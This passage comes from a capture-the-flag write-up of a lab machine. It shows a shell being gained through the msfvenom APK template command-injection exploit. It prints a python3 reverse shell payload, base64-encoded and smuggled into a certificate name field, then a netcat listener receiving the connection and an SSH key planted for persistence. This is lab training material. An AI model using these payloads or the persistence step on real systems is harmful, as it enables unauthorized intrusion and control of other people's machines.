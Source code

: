 ### 3. Get a shell
References:
- https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md  
- https://www.exploit-db.com/exploits/49491  
Firstly I need to generate an apk with an embedded malicious command. I decide to go with a python3 reverse shell.
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 49491.py          
[+] Manufacturing evil apkfile
Payload: python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.17",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' : cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjE3Iiw5OTk5KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2giLCItaSJdKTsn
-dname: CN='|echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjE3Iiw5OTk5KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2giLCItaSJdKTsn | base64 -d | sh #

  adding: empty (stored 0%)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk. This algorithm will be disabled in a future update.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk. This algorithm will be disabled in a future update.

[+] Done! apkfile is at /tmp/tmpggvfeuyc/evil.apk
Do: msfvenom -x /tmp/tmpggvfeuyc/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```
The resulting apk file gets added as a template when generating an android msfvenom payload. Send the request and wait, then get the connection back in the listener.
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.226] 51982
/bin/sh: 0: can't access tty; job control turned off
$ id    
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

### 4. Enumerate from user
Before I start enumeration I generate an ssh key and add it to the user's authorized_keys file so I can login over ssh.
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh -i id_rsa kid@10.10.10.226
The authenticity of host '10.10.10.226 (10.10.10.226)' can't be established.
ECDSA key fingerprint is SHA256:pALlCiXAy3vx09h2utAwb6w3wp7TNNn0qxANXYRvqu0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.226' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-65-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
```